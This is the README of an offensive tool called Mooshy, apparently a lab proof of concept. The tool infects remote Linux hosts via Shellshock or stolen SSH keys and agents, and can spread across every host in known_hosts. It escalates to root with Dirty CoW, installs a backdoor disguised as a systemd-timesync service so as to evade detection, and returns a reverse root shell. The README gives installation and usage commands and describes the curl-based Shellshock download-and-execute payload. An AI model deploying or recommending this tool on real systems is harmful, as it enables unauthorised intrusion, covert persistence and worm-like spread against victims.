 [![Build Status](https://travis-ci.org/rvolosatovs/mooshy.svg?branch=master)](https://travis-ci.org/rvolosatovs/mooshy)

# Mooshy

## Description
Mooshy is a tool that automates the infection and execution of arbitrary code on remote Linux systems. It infects the victim machine exploiting either a [ShellShock Bash vulnerability](https://en.wikipedia.org/wiki/Shellshock_%28software_bug%29) or by using a password-less SSH key or a running SSH agent. Once access to the machine is granted, [Dirty CoW](https://nvd.nist.gov/vuln/detail/CVE-2016-5195) exploit is used to start a SUID root shell, through which a backdoor is installed on the system, masked as a systemd service file.

[![asciicast](https://asciinema.org/a/cGzk0jALOhpTJjGx57dI9phwF.png)](https://asciinema.org/a/cGzk0jALOhpTJjGx57dI9phwF)

## Installation:
```sh
    go get -u -v github.com/rvolosatovs/mooshy/cmd/mooshy
```

## Development:
```sh
    make
```

## Generation of the report:
```sh
    make report
```

\pagebreak

## Usage:
_Default values of some variables are environment-dependent_
```
    $ mooshy -help                                                       
    Usage of mooshy:
        -addr string
          	The lucky guy(in case of Shell Shock - endpoint)
        -moosh string
          	Path to moosh. If empty - uses the one from https://github.com/rvolosatovs/mooshy/releases/latest .
        -shellShock
          	Use Shell Shock for the infection
        -ssh
          	Use SSH for the infection
        -sshAgent string
          	Path to SSH agent socket (default "/run/user/1000/gnupg/S.gpg-agent.ssh")
        -sshKey string
          	Path to (passwordless) SSH private key (default "/home/rvolosatovs/.ssh/id_rsa")
        -sshKnown string
          	Path to SSH known_hosts file (default "/home/rvolosatovs/.ssh/known_hosts")
        -sshUser string
          	Username to connect as(e.g. for SSH) (default "averagejoe")
        -token string
          	Github token to use
        -useSSHAgent
          	Whether or not use SSH agent
        -useSSHKey
          	Whether or not use (passwordless) SSH private key
        -useSSHKnown
          	Whether or not to try to infect all hosts in SSH known_hosts file
```

\pagebreak

# Mechanism of action
The tool operates in 2 modes - infection and execution.

## Infection mode
```sh
   mooshy -ssh -useSSHAgent -sshUser averagejoe -addr 192.168.56.102 # Specific SSH host
   mooshy -ssh -useSSHAgent -useSSHKnown -sshKnown known_hosts -sshUser averagejoe # SSH known_hosts
   mooshy -shellShock -addr http://192.168.56.102/cgi-bin/index.cgi # ShellShock
```
- Connects to the victim machine(s) using either of:
    - SSH:
        - Connects to the `addr` specified and/or all hosts in `known_hosts` file, using either a running SSH agent(with `SSH_AUTH_SOCK` set in environment) or using a password-less private key, which provides access to the machine(s).
        - Copies the `moosh` binary to each victim using SFTP.
    - Shellshock:
        - Sends a GET request to `addr` specified, with embedded script in `User-Agent` header, which downloads `moosh` binary using `curl` and makes it executable.
- Executes the `moosh` binary on the victim machine, which:
    - Exploits [Linux kernel vulnerability(CVE-2016-5195)](https://nvd.nist.gov/vuln/detail/CVE-2016-5195) (PoC uses vanilla Ubuntu 16.04 LTS VM) to overwrite a SUID binary(defaults `/usr/bin/passwd`) by shellcode, which sets `/proc/sys/vm/dirty_writeback_centisecs` to `0` and `exec`s `/bin/bash` with `root` privileges(it's a SUID binary owned by `root`). Note, that setting `/proc/sys/vm/dirty_writeback_centisecs` to `0` is required to prevent kernel panic, which would otherwise occur shortly after the execution of exploit due to an invalid state reached, which is triggered by the exploit.
    - Using the "suid root shell" installs the backdoor on the system.
    - Creates, enables and starts a `systemd-timesync` systemd service, which launches the backdoor service.
    - Restores the contents of the original binary in it's location and removes all temporary files.

\pagebreak

## Execution mode
```sh
   mooshy -addr 192.168.56.102:22 # The port should be any open port
```
- Connects to the backdoor running on the infected victim and returns a reverse `root` shell.

\pagebreak

# Attack analysis

## Dirty CoW exploit
>  A race condition was found in the way Linux kernel's memory subsystem
>  handled breakage of the read only private mappings COW situation on
>  write access.
>
>  An unprivileged local user could use this flaw to gain
>  write access to otherwise read only memory mappings and thus increase
>  their privileges on the system. ([Source](https://bugzilla.redhat.com/show_bug.cgi?id=1384344#))

## Shellshock
> A flaw was found in the way Bash evaluated certain specially crafted environment variables. An attacker could use this flaw to override or bypass environment restrictions to execute shell commands. Certain services and applications allow remote unauthenticated attackers to provide environment variables, allowing them to exploit this issue. ([Source](https://access.redhat.com/security/cve/cve-2014-6271))

## Infection
Once root access is gained through the Dirty CoW exploit, the machine is infected with a persistent backdoor. The binary code for the backdoor is embedded in the `moosh` binary. It creates and enables a new systemd service in `/lib/systemd/system/systemd-timesync.service` and installs the binary as `/lib/sytemd/systemd-timesync`. This name was chosen for its similarity to the existing `systemd-timesyncd` service, to hopefully avoid detection from unsuspecting users. All traces of the exploit are then erased, leaving only the newly installed service. 

\pagebreak

## Backdoor
The `systemd-timesync` service creates a raw socket that listens to TCP requests. The raw socket allows the backdoor to listen on all TCP ports with a single socket, while the TCP payload is still handled by the kernel so that normal service by the victim machine is unaffected. When a packet with a specific payload is received, it triggers the backdoor to open a reverse shell to the attacker's machine. The payload consists of a sentinel value, followed by the port number on which the attacker is listening for a reverse shell connection.

The backdoor then opens a new TCP connection to the source IP of the triggering packet, using the specified port. Since the backdoor is run as a systemd service, it has not tty attached. Instead, it uses the `script` executable, which is installed on linux by default, to create a pty and connect it to `/bin/bash`. This opens a fully interactive root shell on the victim's machine, whose input and output are then connected to the opened TCP connection. 

## Buffer overflow
A buffer overflow occurs when more data is put in a buffer than it can hold, leading to overwrite adjacent memory locations being overwritten. This problem can be abused to alter the return address and inject code on the stack.

To illustrate this concept, a vulnerable HTTP daemon (`hHTTPd`) is supplied as a proof of concept. It stores the HTTP request and reflects the path back to the client in the message body. However, if the user requests a path that is too long, it overflows the request buffer. This vulnerability is exploited to gain code execution. _At the moment, this is not implemented._

# Technical setup
The PoC uses vanilla Ubuntu 16.04 LTS with [Bash version 4.3-6](https://ubuntu.pkgs.org/14.04/ubuntu-main-amd64/bash_4.3-6ubuntu1_amd64.deb.html), OpenSSH service and Apache2 web server running.
